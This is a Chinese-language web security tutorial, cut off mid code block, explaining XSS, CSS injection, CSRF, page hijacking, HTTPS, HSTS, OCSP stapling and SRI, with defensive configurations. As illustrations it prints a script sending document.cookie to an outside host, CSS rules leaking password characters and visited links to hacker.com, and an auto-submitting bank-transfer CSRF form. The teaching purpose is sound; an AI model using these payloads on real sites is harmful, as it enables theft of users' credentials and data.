








记录 Web 开发中常见的安全问题以及防御方法。


# XSS 跨站脚本攻击

考虑到以下场景：
论坛网站，因为帖子支持表情、特殊字体字号等，所以帖子使用 HTML，并以此提交后端、入库储存；
看帖的页面，直接使用服务端渲染的方式输出：

```jsp
<%= postContent %>
```

<br />

这是很常见的场景，例如 Discuz 论坛等都是这种形式，而这也正是 XSS 跨站脚本攻击诞生的背景。

考虑以下情况，某黑客发帖，内容如下：

```html
你好
<script>
  $.post({ url: 'https://example.com', data: document.cookie })
</script>
```

因为这一段 HTML 被直接插入页面中，任何访问这篇帖子的用户都会中招，导致 Cookie 被发送给恶意网站。
这种攻击方式简单直观，却很致命。

最初级的防御措施，是禁止任何 `<script>` 标签，但这解决不了问题，黑客可以换一种发帖内容：

```html
你好

```

只需要使用一个 `` 类的标签，赋予一个不存在的资源，这样它的 `onerror` 必定触发，此时只需要把代码写在事件回调中即可。
虽然攻击方式还是一样的，但是，这种方式就很难防御了，毕竟想识别这种攻击代码比 `<script>` 标签要复杂多了。

此外，markdown 格式因为也支持使用 HTML 标签，所以也存在上述问题，如果相关业务支持 markdown，则也需要注重防御。

<br />

下面给出几种防御方式（建议全部一同使用）：

**使用 `innerText`、`textContent` 属性来展示用户内容。**

这两种属性不会导致输入内容被解析为 HTML 元素，因此可以安全的承接用户内容；而且 React、Vue 等工具内部也是利用了此原理，所以使用这些工具，也可以避免 XSS 攻击。

以上适用于纯文本的场景，如果需要支持用户设置文字样式、插入图片等复杂内容，请考虑使用富文本展示方案（可在 [PaperPlane Awesome](https://paperplane.cc/p/50388d702488/) 查找相关工具）。注意，常见的文本高亮这个功能，需要特别注意实现方式，不能图省事就用 `dangerouslySetInnerHTML` 或者 `v-raw` 来转为 HTML 标签。

-----

**滤除所有 `<script>` 、`<object>` 等危险标签，并滤出所有标签的 `"on"` 开头的所有属性。**

控制用户输入的内容并滤除非法内容，这也是一种防御方式。

可以使用 [`xss`](https://www.npmjs.com/package/xss) 这个包，它的被设计出的目的就是防御 XSS 攻击，此外它还支持白名单、自定义处理函数等功能。

-----

**使用 `httpOnly` 的 Cookie 避免泄露登录凭据。**

后端下发 Cookie 时，可以指定 `httpOnly=true` 属性，若如此做，这个 Cookie 无法通过 JS 访问。

这只是非常简单的防御方式，一旦 XSS 攻击达成，此方法仅能起到保护用户登录凭据的功能，但攻击者可以做很多事情，所以此方法只能作为最后一道防线，不能完全依赖它来防御 XSS 攻击。

-----

**使用 [CSP（内容安全策略）](https://developer.mozilla.org/zh-CN/docs/Web/HTTP/CSP) 设置 JS 白名单。**

设置的方式有两种：

第一种方式，配置服务器，使得 HTML 文档的 HTTP 响应带有以下响应头：

```
Content-Security-Policy: script-src 'self' https://example1.com https://example2.com;
```

这里的 `script-src` 指定了所有脚本只能通过 `'self'`（当前同源）以及后面 2 个域名加载，域名可以指定多个。可在 [MDN](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy) 上查看 CSP 所有支持的响应头。

这里只要 `script-src` 后面跟着的配置项不包含 `'unsafe-inline'`，那么网页便无法执行任何内联 `<script>`，同时标签字面量定义的任何事件回调也不会触发，以此最大限度避免 XSS 攻击。

第二种方式，是使用 `<meta>` 标签，值和上面一样：

```html
<meta 
  http-equiv="Content-Security-Policy"
  content="script-src 'self' https://example1.com https://example2.com;"
/>
```

<br />

如果一定需要执行内联 `<script>` 标签的代码，可以在这个配置项中加上 `'nonce-随机令牌'`，此时，带有 `nonce="随机令牌"` 属性的内联代码的 `<script>` 依然可以执行。

这是最完善的解决方案，但是，它对页面的限制也是最大的。使用了这个策略后，每次引入第三方 JS 都需要配置 CSP，会导致开发部署流程更繁琐、服务端复杂度的增加。顺带一提，知乎也已经开启了 CSP。


## 扩展：使用 URL 的攻击方式

这种攻击方式被称为 “反射式 XSS”。考虑以下场景：
某个搜索引擎网站，其搜索参数为 `?search=<搜索词>`，提交后搜索详情页有一处 DOM 会展示：`"当前搜索内容为：<搜索词>"`，这里的搜索词源自从 URL 中解析出的搜索词。这样类似的场景还有很多，不局限于搜索引擎类的站点。


这样的页面设计，如果没有安全方面的意识，就会给恶意用户可乘之机。

如果页面上显示的搜索词直接来自服务端渲染，黑客则可以构建非法 URL；
例如：构造一个地址 `?search=%3Cscript%3E%3C%2Fscript%3E`，解析 URL 参数会得到 `"<script></script>"`，然后被服务器直接放入 HTML 中展现给浏览者，这个网页就具备了执行恶意代码的能力。
黑客在这对 `<script>` 标签中添加一些 JS 代码，并把这个 URL 发给其他用户，或伪造成超链接，骗取其他用户点击，这便会导致用户的隐私泄露。

这种反射型 XSS，防御起来也不难，除了使用上面的 CSP、安全过滤等方式来防御之外，还可以使用 `innerText`、`textContent` 的前端实现方式来展示这些内容。


## 扩展：CSS 也能注入攻击

有些网站允许用户自定义主题，用户可以插入自己的 CSS，实际上，CSS 也可以实现注入攻击，甚至比 XSS 更难防御。

例如，某类似 QQ 空间的网站为了支持自定义主题，允许用户上传 CSS，于是某恶意用户上传如下 CSS：

```css
input[value^='1'][type='password'] {
  background-image: url('https://hacker.com/?input=1');
}
input[value^='2'][type='password'] {
  background-image: url('https://hacker.com/?input=2');
}
/* ...各种字符组合 */
input[value^='11'][type='password'] {
  background-image: url('https://hacker.com/?input=11');
}
/* ...各种字符组合 */
input[value^='112'][type='password'] {
  background-image: url('https://hacker.com/?input=12');
}
/* ...各种字符组合 */
```

这样，只要任意用户访问别人的空间时，点击页面上的登录控件，注入的 CSS 就会对密码输入框生效，用户登录的密码前缀匹配这些规则，浏览器就会请求背景图对应的 URL，以此导致用户密码泄露。

此外，恶意用户可以利用 CSS 的 `:nth-child`、`:visited` 等伪类，达到窃取隐私的目的：

```css
a:nth-child(1):visited {
  background-image: url('https://hacker.com/?vi=1');
}
a:nth-child(2):visited {
  background-image: url('https://hacker.com/?vi=2');
}
a:nth-child(3):visited {
  background-image: url('https://hacker.com/?vi=3');
}
/* ... */
```

所以，网站如果想提供自定义 CSS，则需要对 CSS 内容进行识别判断，滤出其中所有非安全域名。
CSS 具备 `@import()` 引入其他样式表的能力，具备从 URL 加载背景图、加载字体（字体不能跨域）的能力，这些都要考虑到。

你也可以使用 CSP，但是它只能一次性设置网站加载所有图片的规则，不能单独针对某一个 CSS 设置：

```
Content-Security-Policy: img-src 'self' https://example1.com https://example2.com;
```

<br />

看到这里，你可能也意识到了，即使不允许自定义 CSS，只要网站允许用户使用 HTML 标签，那么恶意用户就可能通过在标签中添加 `style="background-image: url(...)"` 这种方式，实现窃取访客的隐私。

不过，可以使用 `xss` 来对用户的输入进行安全过滤，这个工具会剔除标签的 `style` 属性，避免出现上述问题。


# CSRF 跨站请求伪造

考虑如下场景：
某网银网站使用 Cookie 对用户进行鉴权，其有一个转账接口，假设接口是这样的：

```http
POST https://bank.com/api/transfer
```

参数：

```json
{
  amount: 10000,
  to_account: 123456
}
```

此时，某恶意用户自制一个网站，网站上放置以下内容：

```html
<form action="https://bank.com/api/transfer" method="POST" id="form">
  <input type="hidden" name="amount" value="10000">
  <input type="hidden" name="to_account" value="<黑客的账户>">
</form>
<script>
  document.getElementById('form').submit();
</script>
```

这样，用户访问黑客的网站时，如果曾经登录过网银，就会被转走一笔钱。
网上银行、投票类网站，通常会被作为 CSRF  攻击的重灾区，普通用户可能会被黑客利用，做出一些意料之外的操作。

此外，如果源站接口是 GET 请求，黑客甚至会使用 `` 这种方式就能完成攻击，这还可以配合一些防 XSS 机制不完善的网站，同时利用 XSS，此时甚至连构建表单都不需要。

**CSRF 攻击，利用的是浏览器会自动带上域名的 Cookie 发送请求，即使当前地址栏的 URL 和表单提交的 URL 不同源（这种场合又被称为 “跨站 Cookie”），这也是 “跨站请求伪造” 这个名称的来源。**CSRF 攻击有时也被成为 XSRF 攻击。

针对这个特性，我们可以使用以下预防措施：

最简单直观的方式是，**直接不使用 Cookie**。例如所有请求都使用 JS 在 `axios` 等请求工具里全局配置，每次请求从本地存储中提取 token 放置于请求头的 `Authorization` 字段中。因为 CSRF 是在黑客自己的网站上构建表单来提交，此时无法访问源站的本次存储，无法盗取用户的 token。

-----

浏览器也在跟进这类问题，因为跨站容易导致 CSRF 攻击，所以浏览器提出了第三方 Cookie 的限制策略。

服务端在下发 Cookie 时，可以添加一个属性 `SameSite`，值可以取：

- `Strict`，严格模式，只有在访问源站时才发发送此 Cookie，最安全；
- `Lax`，（默认）宽松模式，相比严格模式，在从第三方网站导航到源站时（例如点击链接），也会带上此 Cookie；其他场合仍会避免第三方 Cookie 被利用，此模式也是具备安全性的；
- `None` 并配置 `Secure`，**注意设置 `SameSite=none` 时必须配置 `Secure`（也就是此 Cookie 只在 HTTPS 请求时才能被设置），否则浏览器会报错，Cookie 也无法设置成功；**这是最不安全的设置，会导致 CSRF 攻击；浏览器现在已经默认不再是 `None` 了，不过早期浏览器可能不一定。

所以，下发 Cookie 时，可以设置其 `SameSite` 属性为 `Lax` 或 `Strict`，以此来避免 CSRF 攻击；当然也可以留空，让浏览器取默认值 `Lax`，不过早期的浏览器可能默认是 `None`，所以还是建议设置此值。

-----

我们也可以利用服务器渲染或者 JS，在表单中加入一些特定的标识符，例如：

```html
<input type="hidden" name="csrf_token" value="<校验字段>" />
```

这个标签需要由服务端直接渲染到表单里，或者通过 JS 放置，服务端收到提交后，就对字段 `csrf_token` 进行校验，以此判断请求是否合法。
这种方式需要对前端和后端进行改造，工作量可能会比较大。

此外，`axios` 也给我们提供了 `xsrfCookieName`（默认 `'XSRF-TOKEN'`）、`xsrfHeaderName` （默认 `'X-XSRF-TOKEN'`）配置项，用来对这种方式做兼容，它的做法是这样的：
只要服务端的响应带有 `XSRF-TOKEN` 键名的 Cookie，`axios` 就会把这个 Cookie 的值记录下来，后续请求都会在请求头里以 `X-XSRF-TOKEN: <之前记录的 Cookie>` 的形式携带这个值。


# 网页劫持

在大约 10 到 15 年前，浏览器经常会莫名其妙在网页右下角蹦出来小广告，如下图：


图中明明访问的是淘宝的主页，右下角却出来一个第三方小游戏的弹窗，甚至直接挡住了登录表单，这显然不是淘宝官方自己放的广告。

实际上，这种弹窗广告的来源是网页劫持或 CDN 劫持。
从技术原因来讲，攻击者只需要在我们加载网页的 HTML 中插入一小段 JS，用于加载弹窗广告的代码即可。这种劫持操作非常简单和初级，但是对用户体验影响很大，攻击者甚至可以植入 JS 用来窃取用户密码，这也是以前网上银行都必须让用户安装安全控件的原因。

网页劫持有很多来源，电脑上的恶意软件、浏览器恶意插件等都可能进行劫持，但运营商劫持的情况也不少见。举个例子，早期运营商甚至会劫持 404 等状态码，替换成广告页面，所以国内互联网公司都有约定俗成的全局固定 80 状态码，使用 JSON 数据套一层实际的状态码这种习惯。

为什么现在这种弹窗小广告不常见了？原因很简单，除了运营商更规范之外，现在的网站大多数采取 HTTPS 连接，在这种连接下很难劫持网页。

<br />

网站实现 HTTPS，首先需要放通 443 端口，向电子证书机构申请签发证书，并配置 Nginx 或其他 Web 服务器程序。

我建议使用 [acme.sh](https://acme.sh/) 来自动签发和管理证书，因为证书是有有效期的，免费的证书有效期很短。你也可以使用阿里云、腾讯云等供应商的证书托管服务；如果网站用于银行、电商等，建议找供应商购买专业的 OV、EV 证书。

证书机构会验证你对域名的所有权，验证并审核通过后，会下发数字证书，我们以 PEM 格式证书举例（用于 Nginx、Apache 等，不同格式证书可互相转换），是两个文件：`key.pem`、`fullchain.pem`，将它们存放于某个目录，然后配置 Nginx：

```nginx
server {
  server_name paperplane.cc;
  
  listen 443 ssl;
  listen [::]:443 ssl;
  ssl_certificate /path/to/fullchain.pem;
  ssl_certificate_key /path/to/key.pem;
}
```

即可开启 HTTPS 访问。

如果你想让 HTTP 自动转 HTTPS，那么加一段配置：

```nginx
server {
  server_name paperplane.cc;

  listen 80;
  listen [::]:80;

  return 308 https://$host$request_uri;
}
```

这里的 `308` 也可以改用 `302`，区别是 `308` 会在跳转时维持请求的 Method，而 `302` 跳转后的请求都为 `GET` 了。

****

**为什么 HTTPS 能避免劫持？**

HTTPS 相比 HTTP 而言，多了个字母 S，这个 S 表示 “Secure” 安全的意思。实际上，这里 “安全” 的保障是基于 TLS 通讯协议的。
TLS 既可以实现对网站的 “认证”，避免我们访问冒牌网站，又能实现对网站内容的加密，做到防窥探、防篡改。这一切都基于一种算法——非对称加密。

<br />

**内容加密，防窥探、防篡改：**

运营商和路由器有可能劫持网页，那我们就需要对浏览器和网站服务器之间的通讯，使用某种加密方式对内容进行加密，避免劫持。
如果使用对称加密，那么传输密钥这一步就成为了最大的漏洞，毕竟密钥不能再加密吧；非对称加密正是为了避免这个问题而诞生。

非对称加密是指，密钥有两个分别叫公钥和私钥，其中使用公钥加密的内容只有私钥才能解开，而私钥加密的内容只有公钥才能解开。

网站会把公钥对全互联网公开，所有人都能用公钥加密发送给网站的请求，网站自己用私钥去解密；但网站不能用私钥加密内容发给浏览器，因为公钥是公开的，运营商和路由器能用公钥解密并窥探用户的隐私数据。

实际流程中，浏览器在建立通讯时就会生成一个新的随机密钥，并通过公钥加密后传给服务器，服务器必须用私钥解密，才能得到这个新密钥，然后后续通讯都会用这个新密钥加密了。这样整个流程都没有不安全的环节，没有密钥的明文传递，也避免了数据被窥探或篡改。

<br />

**网站认证，防冒牌：**

本章开头提到的机构、数字证书，就是为了实现这个目的而诞生的。

如果想要对某个网站进行认证，最好的方式就是找一个公平公正的可信第三方机构，他们负责认证网站的所有权，并为可确信来源的网站签发数字证书。
数字证书包含了网站的域名，**也包含了公钥**；它对全互联网公开，任何客户端连接到网站服务器，都能直接获取到网站的数字证书。客户端获取到网站数字证书后，先验证其域名是否匹配证书、是否过期，然后获得其中的公钥用于后续通讯。

那么，数字证书为什么能实现对网站身份的认证？黑客不能伪造一个吗？
这是因为数字证书之间，也存在 “认证链” 的关系，而且，这个 “认证链” 最顶部的 “根证书”，直接预装在操作系统里，所以黑客无法在连接的过程中进行攻击。

假设某个数字证书的机构，取得了全球的广泛信任，他们的数字证书（公钥）也必定是对全互联网公开的；此时他们给其他互联网公司签发证书，签发的证书中都会带有一段**由机构的私钥加密的**认证数据，浏览器如果能用证书机构的公钥解密出来这段数据，那么就证明了证书来源于机构，证书和网站的身份是可信的；**这是因为其他人是不可能拥有机构的私钥的，认证数据无法伪造**。

我们的每台电脑操作系统都预装了全球几大顶级证书机构的数字证书，也就 “根证书”，它们为级别较低的小机构签发证书，小机构再对各个网站签发证书。这之间的级别可能有很多级，因为这样可以在某些机构私钥泄密时做到最大化的隔离。
浏览器打开某个网站后，它的证书会包含颁发机构的信息，浏览器就会去查看颁发机构的证书，如果这个颁发机构的证书来源于一个更高级的颁发机构，则浏览器会继续向上查找，一直找到最顶层的根证书，这一个 “证书链” 必须完全通过校验，才能表明网站的身份。根证书预装在用户的操作系统里，所以黑客无法在连接过程中对它动手脚。

对于 Windows 电脑而言，你可在 “控制面板” > “网络和 Internet” > “Internet 选项” > “内容” 选项卡 > “证书” 按钮 > “受信任的根证书签发机构” 选项卡找到电脑内的根证书；即使是全新安装的操作系统，也会预装几个机构的证书。



这里可能会有很多根证书，因为一部分软件会在这里安装它们厂商的根证书。
安装未知来源的根证书是非常危险的，因为这些证书机构有可能签发了冒牌网站的域名证书，所以你可以定期检查这个菜单，移除掉未知来源的根证书。

可以看到，证书也是有有效期的，因为随着时间的推移，破解手段增加，机构的泄露私钥的可能性也会增加，因此证书都会有一个有效期；此外，证书还有 “吊销” 机制，这是为了避免机构滥用权力而设计的防御性措施，下文中 OCSP 有提到证书吊销相关内容。


## 扩展：中间人攻击

注意，HTTPS 只会加密 HTTP 请求的内容，但是请求的域名、DNS 查询等动作是不会加密的。这导致了一个问题，如果我们连接的网络本身就不是安全的（例如公共 WiFi 热点），或者 DNS 也不安全，那么还是会存在安全隐患，例如 “中间人攻击”。

中间人攻击是一种特殊的攻击方式，攻击者截获用户的请求，或者劫持用户 DNS 导向攻击者自己的服务器，假装网站服务器向浏览器返回一个 “服务器不支持 HTTPS，降级为 HTTP” 的响应，这样后续的连接就都不是 HTTPS 了，此后攻击者在中间充当 “中间人”，截取用户的请求转发给服务器，截取服务器的响应转发给用户。

<br />

**HSTS：**

[HSTS](https://developer.mozilla.org/zh-CN/docs/Web/HTTP/Headers/Strict-Transport-Security) （全名 “HTTP 严格传输安全”）就是为了避免这种情况而诞生的。它的原理是，网站可以声明自己只接受 HTTPS 请求，浏览器只要访问过一次这个网站，就会记住这个设置，之后就强制使用 HTTPS 访问了。
这种方式虽然简单，但是可以有效避免上述的中间人攻击。

具体原理是：
通过 HTTPS 访问某网站时（必须 HTTPS），如果响应带有 `Strict-Transport-Security` 头，那么浏览器就会根据值的配置，把它列入 HSTS 列表，此后对于此域名的访问默认 HTTPS 且不接受降级。响应头可以指定有效期，以及是否包含子域名、是否预装到浏览器的内置列表等配置。

你可以通过 [这个链接](https://www.chromium.org/hsts/) 查询 Chrome 的 HSTS 列表，通过 [这个链接](https://hstspreload.org/) 查询浏览器预置的 HSTS 列表。对于 Chrome 浏览器，可在地址栏输入 `chrome://net-internals/#hsts` 查询已加载的 HSTS。

以 Nginx 为例，添加如下配置：

```nginx
server {
  # ...
  add_header Strict-Transport-Security "max-age=31536000; includeSubDomains; preload";
  ssl_ciphers EECDH+CHACHA20:EECDH+CHACHA20-draft:EECDH+AES128:RSA+AES128:EECDH+AES256:RSA+AES256:EECDH+3DES:RSA+3DES:!MD5;
  ssl_protocols TLSv1 TLSv1.1 TLSv1.2;
}
```

其中，`Strict-Transport-Security` 就是 HSTS 配置，其属性 `max-age` 表示配置的有效期（单位是秒），`includeSubDomains` 表示子域名也包含在内也适用此 HSTS 配置；`preload` 表示被收录到浏览器预置的 HSTS 列表中，注意必须开启 `includeSubDomains` 且有效期不小于一年，此配置才生效。

而 `ssl_ciphers`、`ssl_protocols` 声明了网站接受的加密方式和 TLS 协议版本，用以强化安全性。

<br />

**OCSP 装订：**

OCSP 全名 “在线证书状态协议（Online Certificate Status Protocol)”，顾名思义，它用于查询证书的有效状态。客户端需要向证书机构的 OCSP 服务器查询网站的证书是否被吊销，这个过程既耗时，又容易泄密。

因此，诞生了 “OCSP 装订 （OCSP stapling ）” 这一技术。只要网站服务器支持这个技术，那么它就会定期自动进行 OCSP 查询并缓存结果，收到浏览器的 TLS 握手时，将 OCSP 的结果直接在握手时返回给浏览器，这样浏览器端只需要校验 OCSP 而不需要额外发一次请求了，减小了访问延迟，也增强了安全性。

给出 Nginx 的配置 OCSP 装订的方式：

```nginx
server {
  # ...
  ssl_stapling on;
  ssl_stapling_verify on;
}
```

 Nginx 版本号需要大约 1.3.7 及以上才能使用此功能。


## 扩展：CDN 劫持

HSTS 可以避免网站内容被窃取和篡改，但是，作为网站开发者而言，我们可能会遇到 CDN 厂商不靠谱的情况：因为 CDN 的域名都是通过 CNAME 来解析的，所以 HTTPS 证书都是厂商自有，与开发者无关，此时厂商如果在我们的 JS 文件中夹带私货，这就可能引起安全问题了。

我们可以通过 [SRI](https://developer.mozilla.org/zh-CN/docs/Web/Security/Subresource_Integrity) 来对网页的 JS 等资源进行校验。

具体而言，服务器返回的响应，需要携带以下响应头：

```
Content-Security-Policy: script-src 'sha384-<哈希值>';
```

或者 `<head>` 里面带有以下标记：

```html
<meta 
  http-equiv="Content-Security-Policy"
  content="script-src 'sha384-<哈希值>';"
/>
```

此后，页面中使用 `<script>` 标签加载其他 JS 文件时，这个 `<script>` 标签必须携带 `integrity="sha384-<哈希值>"` 属性，浏览器还会计算这个文件的 SHA384，只有哈希计算结果和标签的属性对得上，且和响应头中的哈希值也对得上，这个 JS 文件才会被加载执行。
注意，如果 `<script>` 是跨域加载文件，还需要带上 `crossorigin="anonymous"` 属性。

可见这么做之后，CDN 就很难在 JS 中夹带私货了，因为修改文件后，哈希值对不上，浏览器会直接不加载这个文件。

<br />

如果是使用 Webpack 项目，计算哈希和注入 `<script>` 标签属性这一步可以交给插件来处理，这里推荐 [`@melloware/csp-webpack-plugin`](https://www.npmjs.com/package/@melloware/csp-webpack-plugin) 这个插件（它是 [`csp-html-webpack-plugin`](https://www.npmjs.com/package/csp-html-webpack-plugin) 的改进版），用法如下：

```js
const CspHtmlWebpackPlugin = require('@melloware/csp-webpack-plugin')

module.exports = {
  // ...
  output: {
    // 必须配置下面这个属性
    crossOriginLoading: "anonymous",
  },
  plugins: [
    new CspHtmlWebpackPlugin({
      // 配置参数
    })
  ]
}
```

这个插件会自动区分开发环境和生产环境，默认只在生产环境启用。

插件会为所有 JS 和 CSS 标签加上 `integrity` 和 `nonce` 属性，然后计算出哈希值和随机数值填入其中；
默认情况，插件会在 HTML 中插入 `<meta>` 标签，不过也可以通过配置 `processFn` 方法属性输出一份文件，用于导出给 Nginx 等工具使用。

插件默认给予 `srcipt-src` 和 `style-src` 很宽松的约束：`'unsafe-inline' 'self' 'unsafe-eval'`，我们需要通过 `'script-src'` 和 `'style-src'` 属性覆盖此配置，请根据需要进行调整。

对于 React 项目而言，推荐对 `script-src` 使用 [`'strict-dynamic'`](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy/script-src#strict-dynamic) 值，它对 JS 文件进行校验，但通过校验的 JS 文件后续动态插入的其他 JS 则不受约束了。示例如下：

```js
new CspHtmlWebpackPlugin({
  'script-src': ["'strict-dynamic'"],
})
```

如果你使用 CSS-in-JS 的库，例如 `@emotion`，因为它会动态创建 `<style>`，所以需要关闭样式相关的 CSP，此时需要这样配置：

```js
